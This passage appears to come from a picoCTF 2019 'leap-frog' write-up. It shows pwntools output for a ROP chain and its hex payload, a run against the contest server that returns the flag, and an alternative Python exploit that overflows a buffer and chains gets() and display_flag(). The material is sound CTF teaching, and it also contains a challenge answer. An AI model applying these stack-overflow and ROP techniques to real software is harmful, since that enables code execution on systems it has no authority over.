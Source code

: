 ```console
[*] Loaded cached gadgets for 'rop'
[*] ROP:
    0x0000:        0x80485e6 leapA()
    0x0004:        0x8048ac0
    0x0008:        0x80485f3
    0x000c:       0xbabababa
    0x0010:        0x80485fd leap2(0xdeadbeef)
    0x0014:        0x8048409 <adjust @0x1c> pop ebx; ret
    0x0018:       0xdeadbeef arg0
    0x001c:        0x80485e6 leapA()
    0x0020:        0x80486b3 display_flag()
[*] EBP: 0x80480ef
[*] Payload:
    00000000  41 41 41 41  41 41 41 41  41 41 41 41  41 41 41 41  │AAAA│AAAA│AAAA│AAAA│
    00000010  41 41 41 41  41 41 41 41  ef 80 04 08  e6 85 04 08  │AAAA│AAAA│····│····│
    00000020  c0 8a 04 08  f3 85 04 08  ba ba ba ba  fd 85 04 08  │····│····│····│····│
    00000030  09 84 04 08  ef be ad de  e6 85 04 08  b3 86 04 08  │····│····│····│····│
    00000040
[+] Starting remote process '/problems/leap-frog_3_5d6cea2f1cec97458549353ec1e7e158/rop' on 2019shell1.picoctf.com: pid 2657143
[+] Receiving all data: Done (50B)
[*] Stopped remote process 'rop' on 2019shell1.picoctf.com (pid 2657143)
picoCTF{h0p_r0p_t0p_y0uR_w4y_t0_v1ct0rY_0db32718}
```

## Alternative Solution:

An alternative solution which is much simpler is to use `gets` to set all three globals to `true` (thanks to [Yaakov](https://twitter.com/YaakovCohen88) for this elegant solution):

```python
overflow_offset = get_overflow_offset()
log.info("win1 address: {}".format(hex(exe.symbols["win1"])))
log.info("display_flag() address: {}".format(hex(exe.symbols["display_flag"])))

rop = ROP(context.binary)
rop.gets(exe.symbols["win1"])
rop.display_flag()

log.info("ROP: \n{}".format(rop.dump()))

payload = fit({overflow_offset: str(rop)})
io = start()
send_payload(io, payload)
io.sendline("\x01\x01\x01")
print io.recvall()
```

